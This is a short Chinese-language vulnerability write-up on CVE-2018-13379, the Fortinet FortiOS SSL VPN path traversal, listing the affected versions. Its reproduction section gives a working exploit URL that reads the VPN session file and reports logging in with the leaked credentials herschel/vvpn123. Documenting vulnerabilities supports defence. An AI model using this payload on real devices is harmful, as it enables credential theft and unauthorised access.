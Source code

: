 （CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞
===============================================

一、漏洞简介
------------

Fortinet FortiOS路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379）漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet
FortiOS 5.6.3版本至5.6.7版本、6.0.0版本至6.0.4版本中的SSL VPN
受此漏洞影响。

二、漏洞影响
------------

Fortinet FortiOS 5.6.3版本至5.6.7版本、

Fortinet FortiOS 6.0.0版本至6.0.4版本

中的SSL VPN 受此漏洞影响。

三、复现过程
------------

POC：`http://www.0-sec.org:4443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`

![](resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId24.png)

利用泄露的账户herschel/vvpn123成功登陆。

![](resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId25.png)

![](resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId26.png)

### 检测工具

> https://github.com/ianxtianxt/CVE-2018-13379

参考链接
--------

> https://blog.csdn.net/limb0/article/details/102890683
